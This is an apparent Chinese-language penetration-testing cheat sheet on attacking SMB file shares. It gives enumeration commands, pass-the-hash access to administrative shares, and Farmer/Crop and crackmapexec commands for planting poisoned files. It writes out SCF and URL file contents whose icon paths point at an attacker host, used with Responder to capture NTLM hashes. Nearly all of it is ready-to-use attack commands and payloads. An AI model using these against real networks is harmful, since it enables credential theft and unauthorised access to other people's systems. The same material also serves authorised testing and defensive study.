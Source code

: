 	某些共享无需身份验证即可访问，探索它们以找到一些有趣的文件
  ### smbmap
  	https://github.com/ShawnDEvans/smbmap
  	>smbmap -H 10.10.10.10                
	>smbmap -H 10.10.10.10 -R             # 递归列表
	>smbmap -H 10.10.10.10 -u invaliduser 
	>smbmap -H 10.10.10.10 -d "DOMAIN.LOCAL" -u "USERNAME" -p "Password123*"
  ### pth-smbclient from path-toolkit
  	https://github.com/byt3bl33d3r/pth-toolkit
	>pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
	>pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/C$
	>ls  # 列文件
	>cd  # 切换目录
	>get # 下载
	>put # 上传
  ### smbclient from Impacket
  	https://github.com/SecureAuthCorp/impacket
	>smbclient -I 10.10.10.100 -L ACTIVE -N -U ""
  ### 针对可写共享的 SCF 和 URL 文件攻击
  	https://github.com/mdsecactivebreach/Farmer
	https://github.com/mdsecactivebreach/Farmer/tree/main/crop
	>farmer.exe <port> [seconds] [output]
	>farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
	>farmer.exe 8888 60 # one minute
	Crop 可用于创建各种文件，这些文件将触发 SMB/WebDAV 连接，以便在哈希收集攻击期间中毒文件共享
	>crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
	>Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
	>Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
  ### SCF文件
  	@something.scf文件写入以下内容
	[Shell]
	Command=2
	IconFile=\\10.10.10.10\Share\test.ico
	[Taskbar]
	Command=ToggleDesktop
	然后监听
	>responder -wrf --lm -v -I eth0
	使用crackmapexec:
	>crackmapexec smb 10.10.10.10 -u username -p password -M scuffy -o NAME=WORK SERVER=IP_RESPONDER #scf
	>crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER #lnk
	>crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER CLEANUP
  ### URL文件
	.url文件写入以下内容
	[InternetShortcut]
	URL=whatever
	WorkingDirectory=whatever
	IconFile=\\10.10.10.10\%USERNAME%.icon
	IconIndex=1
	然后监听
	>responder -I eth0 -v